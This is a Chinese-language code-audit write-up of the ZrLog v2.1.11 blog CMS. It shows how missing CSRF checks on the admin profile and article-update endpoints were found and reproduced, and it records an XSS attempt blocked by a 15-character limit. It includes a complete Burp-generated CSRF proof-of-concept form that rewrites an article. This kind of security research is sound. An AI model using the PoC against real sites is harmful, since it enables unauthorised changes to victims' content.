# ZrLog v2.1.11代码审计-先知社区

> **来源**: https://xz.aliyun.com/news/16539  
> **文章ID**: 16539

---

# 简介

ZrLog是使用 Java 开发的博客/CMS程序，具有简约，易用，组件化，内存占用低等特点。自带 Markdown 编辑器，让更多的精力放在写作上，而不是花费大量时间在学习程序的使用上。

# CSRF-1

## 代码审计

首先查看我们查看pom.xml文件，查看是否使用了spring框架并且存在spring-security组件信息，该组件信息会对CSRF进行限制过滤



我们通过上述可以发现没有使用spring框架即不存在spring-security组件。  
查看该项目的 web.xml 可以看到通过类com.zrlog.web.config.ZrLogConfig 进行访问控制



查看ZrLogConfig类中我们发现configRoute方法存在三条路由，其中管理员路由由AdminRoutes控制



我们查看AdminRoutes发现zrlog后台处理的所有功能点接口都在这里面，我们可以发现/api/admin接口由AdminController类控制



我们查看AdminController类，发现该类主要个人信息编辑的处理类，比如用户密码修改，个人信息修改，我们可以update函数为个人信息处理的函数。它首先解析请求体，检查必要的参数，然后根据当前的运行模式和用户权限进行相应的处理。如果更新成功，返回包含成功消息的响应对象；如果更新失败或参数不正确，返回包含错误信息的响应对象.



到这里个人信息整个流程就基本清晰了，并且在这其中没有经过任何filter类的拦截，因此此处存在CSRF漏洞

## 漏洞复现

点击右上角进入到如下图个人信息处：



任意输入点击提交按钮进行burp抓包



我们更改post请求，把其中的email利用CSRF漏洞更改为test\_test@qq.com，使用burp自带的CSRF POC进行测试



使用burp自带的CSRF进行测试，启动http服务，浏览器访问即可



  
点击上述Submit request，成功跳转



查看用户个人信息处，邮箱信息更新成功



## XSS

通过上述代码审计个人信息处接口可以发现并没有对个人信息处进行XSS过滤，因此此处可以进行XSS操作，且可以通过CSRF+XSS组合拳进行cookie获取  
直接输入XSSpayload发现直接报错，显示输入数据太长



我们换成

# 1

测试是否存在XSS漏洞  
存在XSS漏洞



通过测试发现只能输入15个字符串，超过即报错



是不是就绕过不了，试了一下，好像确实绕过不，hhh

# CSRF-2

## 代码审计

通过AdminRoutes类文件中的路由可以确定该接口为文章处理接口


我们查看ArticleController类文件发现update方法来处理我们的文章更新操作，并且通过调用articleService变量中的uodate方法进行处理


我们可以发现articleService变量实例化了一个类为ArticleService类



该类在service-2.1.1jar包中，我们查看该jar包中的ArticleService类



我们发现update类调用了sava方法，该方法的主要功能是根据传入的请求对象和用户 ID，创建或更新文章，并返回一个包含操作结果的响应对象。它通过判断请求对象的类型来决定是创建还是更新文章，并在操作完成后设置响应对象的属性，为用户返回处置结果。



通过上述代码审计我们发现并不存在任何CSRF过滤。

## 漏洞复现

通过登录后台可发现文章管理模块存在编辑处，任意点击一条文章进行编辑



任意输入抓包，可以发现文章通过id进行控制，使用burp自带的CSRF POC进行测试

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://ip/api/admin/article/update" method="POST" enctype="text/plain">
      <input type="hidden" name="&#123;&quot;id&quot;&#58;&quot;2&quot;&#44;&quot;editorType&quot;&#58;&quot;markdown&quot;&#44;&quot;title&quot;&#58;&quot;test&#95;csrf111&quot;&#44;&quot;alias&quot;&#58;&quot;test&#95;csrf111&quot;&#44;&quot;thumbnail&quot;&#58;null&#44;&quot;typeId&quot;&#58;&quot;1&quot;&#44;&quot;keywords&quot;&#58;null&#44;&quot;digest&quot;&#58;&quot;&lt;p&gt;æ&#130;&#168;å&#165;&#189;&lt;&#47;p&gt;&quot;&#44;&quot;canComment&quot;&#58;false&#44;&quot;recommended&quot;&#58;false&#44;&quot;privacy&quot;&#58;false&#44;&quot;content&quot;&#58;&quot;&lt;p&gt;test&#95;csrf&lt;&#47;p&gt;&#92;n&quot;&#44;&quot;markdown&quot;&#58;&quot;test&#95;csrf111&quot;&#44;&quot;rubbish&quot;&#58;&quot;&apos;value" value="&apos;false&quot;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```





burp生成链接浏览器访问，点击Submit request



查看文章管理模块和前台文章展示处，成功修改




